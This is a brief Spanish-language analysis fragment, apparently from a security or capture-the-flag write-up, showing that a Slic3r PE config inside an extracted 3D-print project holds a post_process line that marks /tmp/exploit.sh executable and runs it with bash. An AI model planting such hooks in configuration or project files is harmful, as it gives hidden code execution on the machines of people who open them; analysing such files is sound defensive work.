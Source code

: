 ```bash
4 directories, 5 files

```

El exploit esta en el archivo `Slic3r_PE.config` que es el que ejecuta codigo arbitrario

```bash
 cat Extracted/Metadata/Slic3r_PE.config | grep tmp
; post_process = "chmod +x /tmp/exploit.sh";"bash /tmp/exploit.sh"
```
El exploit le da permiso a un archivo /tmp/exploit.sh y lo ejecuta con bash